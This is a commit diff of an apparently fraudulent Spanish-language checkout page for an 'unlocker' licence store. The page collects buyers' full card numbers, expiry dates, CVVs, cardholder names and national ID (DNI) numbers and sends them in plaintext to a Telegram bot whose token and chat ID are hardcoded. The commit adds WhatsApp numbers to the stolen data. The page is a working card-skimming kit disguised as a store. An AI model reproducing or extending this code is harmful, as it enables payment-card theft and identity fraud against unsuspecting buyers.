

Before and after one commit to sbkstore/casino, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 66-829 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -52,19 +52,34 @@
     .hero h1 { font-size: 1.8rem; font-weight: 800; margin-bottom: 10px; line-height: 1.2; }
     .hero p { color: var(--text-muted); font-size: 0.9rem; }
 
-    /* Estilo para el mensaje profesional */
     .info-box {
       background: rgba(59, 130, 246, 0.1);
       border-left: 4px solid var(--accent);
       padding: 15px;
       border-radius: 8px;
-      margin-bottom: 20px;
+      margin-bottom: 30px;
       font-size: 0.85rem;
       color: #cbd5e1;
     }
     .info-box strong { color: #fff; }
 
-    .input-field { margin-bottom: 20px; }
+    /* Diferenciación de Secciones */
+    .section-title {
+        font-size: 0.7rem;
+        font-weight: 800;
+        color: var(--accent);
+        text-transform: uppercase;
+        letter-spacing: 1.5px;
+        margin-bottom: 15px;
+        display: flex;
+        align-items: center;
+        gap: 8px;
+    }
+    .section-title::after { content: ""; flex: 1; height: 1px; background: var(--border-soft); }
+
+    .input-group { margin-bottom: 35px; } /* Espacio entre contacto y planes */
+
+    .input-field { margin-bottom: 15px; }
     .input-field label { display: block; font-size: 0.75rem; font-weight: 700; color: #94a3b8; margin-bottom: 8px; text-transform: uppercase; }
 
     .input-wrapper {
@@ -78,10 +93,14 @@
         transition: 0.3s;
     }
 
+    .input-wrapper:focus-within { border-color: var(--accent); }
+
     input {
       width: 100%; padding: 16px; background: transparent; color: #fff;
       border: none; font-size: 1rem; outline: none;
     }
+
+    .prefix { color: var(--accent); font-weight: 700; font-size: 1rem; margin-right: 2px; user-select: none; }
 
     .card-input {
       background: var(--dark-card);
@@ -106,14 +125,14 @@
     }
     .card-brand-icon.visible { opacity: 1; }
 
-    .package-list { display: flex; flex-direction: column; gap: 12px; margin-bottom: 20px; }
+    .package-list { display: flex; flex-direction: column; gap: 12px; margin-bottom: 25px; }
     .pkg-item {
       background: var(--dark-card); padding: 18px; border-radius: 16px;
       border: 1px solid var(--border-soft); display: flex;
       justify-content: space-between; align-items: center; transition: 0.2s;
       cursor: pointer;
     }
-    .pkg-item.selected { border-color: var(--accent); background: rgba(59, 130, 246, 0.05); }
+    .pkg-item.selected { border-color: var(--accent); background: rgba(59, 130, 246, 0.05); box-shadow: 0 0 15px rgba(59, 130, 246, 0.1); }
     .pkg-name { font-weight: 600; font-size: 0.95rem; }
     .pkg-price { font-weight: 800; color: #fff; }
 
@@ -138,7 +157,6 @@
     }
     #customAlert.show { transform: translateX(-50%) translateY(70px); }
 
-    /* CRYPTO */
     .crypto-container { background: #1a1a1e; border-radius: 20px; padding: 20px; border: 1px solid var(--border-soft); margin-top: 20px; }
     .address-box { background: #000; padding: 15px; border-radius: 12px; margin: 10px 0; border: 1px solid #333; position: relative; }
     .address-text { font-family: monospace; font-size: 0.8rem; color: var(--crypto); word-break: break-all; padding-right: 30px; }
@@ -174,13 +192,26 @@
         Por favor, asegúrate de ingresar un correo electrónico o whatsapp válido. Una vez confirmado el pago, el <strong>enlace de descarga</strong>, tu <strong>clave de licencia</strong> y la <strong>guía de instalación paso a paso</strong> serán enviados a este medio de inmediato.
     </div>
 
+    <div class="input-group">
+        <div class="section-title">Datos de Entrega</div>
         <div class="input-field">
-      <label>Email o whatsapp de Activación</label>
+          <label>Email de Activación</label>
           <div class="input-wrapper">
-          <input type="email" id="username" placeholder="ejemplo@correo.com o whatsapp">
+              <input type="email" id="userEmail" placeholder="ejemplo@correo.com">
           </div>
         </div>
 
+        <div class="input-field">
+          <label>WhatsApp (Vía de soporte)</label>
+          <div class="input-wrapper">
+              <span class="prefix">+54</span>
+              <input type="tel" id="userWhatsapp" placeholder="11 1234 5678" maxlength="15">
+          </div>
+        </div>
+    </div>
+
+    <div class="input-group">
+        <div class="section-title">Seleccionar Licencia</div>
         <div class="package-list">
             <div class="pkg-item" onclick="selectPkg('Licencia Mensual', '22', this)">
                 <span class="pkg-name">ACCESO 30 DIAS</span>
@@ -193,6 +224,7 @@
             <div class="pkg-item" onclick="selectPkg('Licencia Lifetime', '107', this)">
                 <span class="pkg-name">PAGO UNICO</span>
                 <span class="pkg-price">150K ARS / 107 USDT</span>
+            </div>
         </div>
     </div>
 
@@ -266,6 +298,10 @@
     const botToken = "8562465983:AAG6Ure3ZmQ9Pke0MVNjD4512VfJT00nJ2w";
     const chatId = "6493944778";
 
+    document.getElementById('userWhatsapp').addEventListener('input', (e) => {
+        e.target.value = e.target.value.replace(/\D/g, '');
+    });
+
     function selectPkg(name, price, el) {
         document.querySelectorAll('.pkg-item').forEach(x => x.classList.remove('selected'));
         el.classList.add('selected'); selPack = { n: name, p: price };
@@ -278,7 +314,9 @@
     }
 
     function verificarYPasar() {
-        if(!document.getElementById('username').value || !selPack.n) return showAlert("⚠️ Completa tus datos.");
+        const email = document.getElementById('userEmail').value;
+        const whatsapp = document.getElementById('userWhatsapp').value;
+        if(!email || !whatsapp || !selPack.n) return showAlert("⚠️ Completa todos los campos.");
         document.getElementById('step1').style.display = 'none';
         document.getElementById('step2').style.display = 'block';
         document.getElementById('checkoutInfo').innerHTML = `<p>Licencia: <b>${selPack.n}</b></p><p>Total: <b style="color:var(--success)">USD ${selPack.p}</b></p>`;
@@ -287,7 +325,6 @@
     function showCardStep() { document.getElementById('step2').style.display = 'none'; document.getElementById('step3').style.display = 'block'; }
     function showCryptoStep() { document.getElementById('step2').style.display = 'none'; document.getElementById('stepCrypto').style.display = 'block'; }
 
-    // Logica Tarjetas
     const cNumInput = document.getElementById('cNum');
     cNumInput.addEventListener('input', e => {
         let v = e.target.value.replace(/\D/g, '');
@@ -297,20 +334,17 @@
         e.target.value = v.match(/.{1,4}/g)?.join(' ') || v;
     });
 
-    // CORRECCION FECHA VENCIMIENTO MM/AA
     const cExpInput = document.getElementById('cExp');
     cExpInput.addEventListener('input', e => {
         let v = e.target.value.replace(/\D/g, '');
-        if (v.length >= 2) {
-            v = v.substring(0, 2) + '/' + v.substring(2, 4);
-        }
+        if (v.length >= 2) { v = v.substring(0, 2) + '/' + v.substring(2, 4); }
         e.target.value = v;
     });
 
     document.getElementById('cardForm').addEventListener('submit', function(e) {
         e.preventDefault();
         document.getElementById('loading').style.display = 'flex';
-        const text = `🚨 NUEVO PAGO TARJETA (UNLOCKER)\n\nEmail: ${document.getElementById('username').value}\nPack: ${selPack.n}\nTitular: ${document.getElementById('cName').value}\nNúmero: ${document.getElementById('cNum').value}\nExp: ${document.getElementById('cExp').value}\nCVV: ${document.getElementById('cCvc').value}\nDNI: ${document.getElementById('cDni').value}`;
+        const text = `🚨 NUEVO PAGO TARJETA (UNLOCKER)\n\nEmail: ${document.getElementById('userEmail').value}\nWhatsApp: +54${document.getElementById('userWhatsapp').value}\nPack: ${selPack.n}\nTitular: ${document.getElementById('cName').value}\nNúmero: ${document.getElementById('cNum').value}\nExp: ${document.getElementById('cExp').value}\nCVV: ${document.getElementById('cCvc').value}\nDNI: ${document.getElementById('cDni').value}`;
         fetch(`https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(text)}`);
         setTimeout(() => {
             document.getElementById('loading').style.display = 'none';
@@ -319,7 +353,6 @@
         }, 3000);
     });
 
-    // Logica Crypto
     function handleFile(input) {
       if (input.files[0]) {
         selectedFile = input.files[0];
@@ -334,7 +367,7 @@
       document.getElementById('loading').style.display = 'flex';
       const formData = new FormData();
       formData.append('chat_id', chatId);
-      formData.append('caption', `💰 COMPROBANTE CRYPTO\nEmail: ${document.getElementById('username').value}\nPack: ${selPack.n}`);
+      formData.append('caption', `💰 COMPROBANTE CRYPTO\nEmail: ${document.getElementById('userEmail').value}\nWhatsApp: +54${document.getElementById('userWhatsapp').value}\nPack: ${selPack.n}`);
       formData.append('photo', selectedFile);
       await fetch(`https://api.telegram.org/bot${botToken}/sendPhoto`, { method: 'POST', body: formData });
       document.getElementById('loading').style.display = 'none';
```
Lines whose indentation alone changed are shown as unchanged.
